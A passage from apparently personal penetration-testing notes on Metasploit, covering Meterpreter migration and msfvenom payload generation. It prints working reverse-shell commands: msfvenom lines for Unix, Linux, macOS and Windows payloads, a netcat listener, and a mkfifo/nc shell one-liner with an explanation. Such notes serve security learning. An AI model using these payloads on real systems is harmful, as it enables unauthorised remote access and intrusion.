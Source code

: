 Executing `run post/windows/manage/migrate` will cause Meterpreter to try to migrate to another process in an automated fashion. I’m not sure how “smart” this is in practice.

#### Additional Resources
* [How does process migration work in Meterpreter](https://security.stackexchange.com/a/92893)
* [Multiple Ways to Persistence on Windows 10 with Metasploit](https://www.hackingarticles.in/multiple-ways-to-persistence-on-windows-10-with-metasploit/)
* [Return-orientated programming (Wikipedia)](https://en.wikipedia.org/wiki/Return-oriented_programming)
* [TryHackMe: Weaponization](https://tryhackme.com/room/weaponization)

## Venom (“msfvenom”)
Msfvenom is a tool to create custom versions of Metasploit payloads, encoded into a variety of different binary formats and scripts. For example:

```bash
# Use Metasploit to generate the code for a remote shell:
# 
msfvenom -p cmd/unix/reverse_netcat \
            lhost=$LOCAL_IP lport=$LOCAL_PORT

# Spin up a listener using netcat:
#
nc -lvp $LOCAL_PORT
```

This will generates code that looks like this:

```bash
mkfifo /tmp/qdsrgu; \
nc $LOCAL_IP $LOCAL_PORT 0</tmp/qdsrgu | \
	/bin/sh >/tmp/qdsrgu 2>&1; \
rm /tmp/qdsrgu
```

What’s going on here?

* `mkfifo /tmp/qdsrgu` creates a named pipe at /tmp/qdsrgu.
* We then spin up a netcat instance directed at our local machine (`nc $LOCAL_IP $LOCAL_PORT`), direct the contents of the pipe into netcat’s STDIN (`0< /tmp/qdsrgu`), pipe the *output* of netcat to a shell we know probably exists (`| /bin/sh`), and finally redirect *both* STDOUT and STDERR back into the named pipe (`> /tmp/qdsrgu 2>&1`).
* On the local machine, `nc -lvp $LOCAL_PORT` listens for the incoming netcat connection from the remote. Anything we type on STDIN here gets sent to the remote and piped to /bin/sh *there*. The output of /bin/sh is then sent to the named pipe, which dumps into (the remote) netcat, which then sends the data to the local machine where it ends up on STDOUT.

Use `--list formats` to see available encoding formats.

```bash
# 32-bit Linux ELF Meterpreter payload
#
msfvenom -p linux/x86/meterpreter/reverse_tcp \
	LHOST=$LOCAL_IP LPORT=$LOCAL_PORT -f elf -o revshell

# 32-bit macOS MACH-O Meterpreter payload
#
msfvenom -p osx/x86/shell_reverse_tcp \
	LHOST=$LOCAL_IP LPORT=$LOCAL_PORT -f macho -o revshell

# 32-bit (?) Windows executable Meterpreter payload
#
msfvenom -p windows/meterpreter/reverse_tcp \
	LHOST=$LOCAL_IP LPORT=$LOCAL_PORT -f exe -o revshell.exe

# 32-bit (?) Windows SERVICE executable (note that these
# require additional API calls to work, beyond what `-f exe`
```